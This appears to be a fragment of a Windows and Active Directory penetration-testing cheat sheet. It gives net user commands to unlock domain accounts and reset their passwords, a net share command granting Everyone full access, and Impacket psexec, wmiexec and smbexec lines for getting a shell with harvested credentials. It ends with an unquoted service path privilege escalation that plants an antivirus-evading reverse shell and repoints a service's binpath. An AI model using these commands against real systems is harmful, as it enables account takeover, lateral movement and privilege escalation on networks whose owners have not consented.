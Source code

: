 **Unlock domain user account**

```
net user user /ACTIVE:jes /domain
```

**Change domain user password**

```
net user user '' newpassword '' /domain
```

**Share folder**

```
net share share c:\share /GRANT:Everyone,FULL
```

### Remote Logging in

Remote logging works when you have successfully extracted working credentials/accounts in the target machine. You can then use them to login to the target machine and have a stable shell. The below tools can be used to accomplish this purpose. You can Install/download these tools from Impacket. **psexec**

```
psexec.py <user>@<ip> powershell
```

**wmiexec**

```
wmiexec.py <user>@<ip>
```

**smbexec**

```
smbexec.py <user>@<ip>
```

### Manual Privilege Escalation Methods

#### Unquoted Service Path

**Manual**

**Checking if a directory is writable.**

```
<C:\icacls "C:\(name)">
```

\#If its writable, then we create a reverse shell that evades Anti virus detection and place it in that directory. #We can then change the configuration of the service to run our payload instead.

```
<C:\Sc config (service-name) binpath=(path-to-your-payload)>
```

\#Start a new listener on your machine #Place your payload in the same directory as the service’s one.
